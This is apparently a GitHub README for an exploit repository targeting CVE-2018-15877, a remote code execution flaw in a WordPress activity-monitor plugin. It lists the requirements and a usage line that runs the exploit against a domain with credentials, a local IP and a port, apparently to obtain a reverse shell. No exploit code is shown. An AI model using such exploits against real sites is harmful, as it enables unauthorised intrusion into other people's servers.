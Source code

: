 # CVE-2018-15877-RCE
RCE via the Planview Activity Monitor plugin for wordpress.

## Requirements:
* Python3
* Selenium

## Usage:
```
./exploit.py <domain> <user:pass> <local IP> <local Port>
```
